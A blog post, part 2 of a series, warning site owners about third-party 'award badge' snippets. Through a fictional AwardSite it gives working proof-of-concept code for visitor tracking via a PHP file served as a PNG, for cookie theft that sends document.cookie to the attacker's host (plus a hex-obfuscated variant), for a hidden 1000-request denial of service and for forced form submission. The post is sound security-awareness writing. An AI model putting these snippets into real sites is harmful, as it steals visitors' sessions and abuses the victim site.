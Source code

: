 ```yaml
---
layout: post
title: 'The very bad things that Javascript can do: Part 2'
tags:
- html
- javascript
- security
---
```


In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we’ll run through a few scenarios.

In our scenarios here, we’re going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013’s best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:


    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  We're already linking to your website -
    but that doesn't complete the circle.  If you use the banner in the code below, you not only show off your reputation this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com


And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we’re going to use the following banner:

![](/uploads/2013/award.png)


Now, lets run through some scenarios.



#### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

{% highlight HTML %}
<a href="http://awardsite.com"><img src="http://awardsite.com/award.png?compress=134"></a>
{% endhighlight %}

Let’s break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress’ which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

    <Files award.png>
        ForceType application/x-httpd-php
    </Files>

Then, the award.png file has the following PHP. (Please note, I’ve not went to the trouble to make sure this handles EVERY scenario… this is meant as a proof of concept).

Note: updateSite() is a function that writes an entry to the database using that siteID. I didn’t think it was important enough to show that code too.

{% highlight PHP %}
<?php
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
    $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
    updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
{% endhighlight %}

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there’s a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

#### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn’t expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var i = new Image();
        i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
        document.getElementById('awardlink').appendChild(i);
    </script>
</a>
{% endhighlight %}

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie’ – so we can obscure this a bit. Try this:

{% highlight javascript %}
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
{% endhighlight %}    
        
Of course, it can look bad for our trained eyes… but for those who don’t “work on computers” they’ll just think its code they don’t understand and use it.

**For future examples, I won’t show how to obfuscate the code. But that would be one of the steps.**

#### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn’t be that hard.

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'http://awardsite.com/award.png';
        var i = new Image();
        document.getElementById('awardlink').appendChild(i);
        setTimeout(function() {
            for (var x = 0; x < 1000; x++) {
                var j = new Image();
                j.style = 'display: none';
                j.src = 'http://victimsite.com/someasset.php';
                document.body.appendChild(j);
            }
        }, 3000);
    </script>
</a>
{% endhighlight %}

In this case, the image is added successfully. However, the setTimeout() method executes a different function 3 seconds later. The delay is so that the user won’t notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image’ is created 1000 times and appended to the document – with a hidden display (so the visitor can’t tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

#### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the Image() object to load a fake form submission with GET parameters. However, it doesn’t stop us from submitting a form that MAY be on the current page.

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'award.png';
        var i = new Image();
        i.src = s;
        document.getElementById('awardlink').appendChild(i);
        var f = document.getElementById('formID');
        f[0].value = 'Some Nefarious Input';
        f.submit();
    </script>
</a>
{% endhighlight %}

This code goes and gets the form with an ID of ‘formID’ and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if… the form doesn’t have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

{% highlight javascript %}
var f = document.forms[1];
{% endhighlight %}


OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they’re doing – of course they’re going to report it. Well, we can force the form to be ajax, and then submit.

{% highlight javascript %}
f.onsubmit = function() {
    //code to create xmlhttprequest and send form as ajax
};
f.submit();
{% endhighlight %}

#### So what does all this mean?

Now that you’ve seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.


        
